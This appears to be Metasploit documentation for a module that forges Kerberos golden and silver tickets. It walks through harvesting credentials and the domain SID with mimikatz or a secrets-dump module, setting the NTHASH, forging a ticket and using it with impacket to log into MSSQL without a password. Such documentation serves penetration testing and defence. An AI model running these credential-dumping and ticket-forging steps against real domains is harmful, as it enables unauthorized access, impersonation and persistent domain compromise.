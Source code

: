 # Kerberos Ticket Forging (Golden/Silver tickets)

The `forge_kerberos_ticket` module allows the forging of a golden or silver ticket.

## Vulnerable Application

Any system leveraging kerberos as a means of authentication e.g. Active Directory, MSSQL

## Pre-Verification steps
1. Obtain your targets DOMAIN via your favorite method: e.g.
    `nmap <TARGET_IP>`
2. Next retrieve the DOMAIN_SID: e.g.
    `mimikatz # sekurlsa::logonpasswords`
    or
    `use auxiliary/gather/windows_secrets_dump`
3. Finally get the NTHASH of the service account you wish to target: e.g.
    `mimikatz # sekurlsa::logonpasswords` # same command as before, shows you both values
## Verification Steps

1. Start msfconsole
2. Do: `use auxiliary/admin/kerberos/forge_kerberos_ticket`
3. Do: `set DOMAIN DW.LOCAL`
4. Do: `set DOMAIN_SID S-1-5-21-1755879683-3641577184-3486455962`
5. Do: `set NTHASH 88E4D9FABAECF3DEC18DD80905521B29`
6. Do: `set USER fake_user`
7. Do: `set SPN MSSqlSvc/dc1.dw.local:1433` (Option only used for silver tickets)
8. Do: `forge_silver` to generate a silver ticket or `forge_golden` for a golden ticket
9. Use your ticket which will have been stored as loot with your chosen target
10. Example usage in impacket:
    ```
    export KRB5CCNAME=/path/to/ticket
    python3 mssqlclient.py DW.LOCAL/fake_mysql@dc1.dw.local -k -no-pass
    ```

## Actions

There are two kind of actions the module can run:

1. **Forge_Silver** - Create a Silver ticket. [Default]
2. **Forge_Golden** - Create a Golden ticket.
